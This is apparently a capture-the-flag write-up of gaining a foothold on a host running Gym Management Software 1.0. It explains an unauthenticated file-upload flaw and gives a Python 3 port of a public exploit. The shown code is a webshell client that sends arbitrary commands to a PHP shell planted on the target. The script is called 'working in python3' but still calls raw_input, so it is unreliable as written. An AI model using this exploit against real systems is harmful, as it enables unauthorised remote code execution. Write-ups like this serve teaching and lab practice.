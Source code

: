 # Foothold
****
Let's go back to the message in the "Contacts" section that mentions:
-_"Made with Gym Management Software 1.0."_
**That is a nice hint!**

Because we can look for possible vulnerabilities reported about this software.
Take a look at this code about Remote Code Execution without Authentication in the "Gym Management System 1.0" software.

**https://www.exploit-db.com/exploits/48506**

The script allows to perform an unauthorized file upload a (.php file). 
Once the php file is uploaded, using the "telepathy" parameter that acts on HTTP requests, remote command execution (RCE) is allowed.

This works because the system doesn't perform a proper validation of the uploaded files. Instead of verifying the type and integrity of the uploaded files, it simply allows any file to be uploaded.


**One thing to note is that the script is in python2.**
**Therefore, it must be run using the python2 command.**
**Or, failing that, use tools like "2to3" to pass it to python3.**
**However, here below you will find the script working in python3 after passing it through "2to3" and making some corrections.**


`(python3 script - Gym Management System 1.0 - Unauthenticated Remote Code Execution)`
```python3
import requests
import sys
import urllib
import re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print (Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL)
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET
```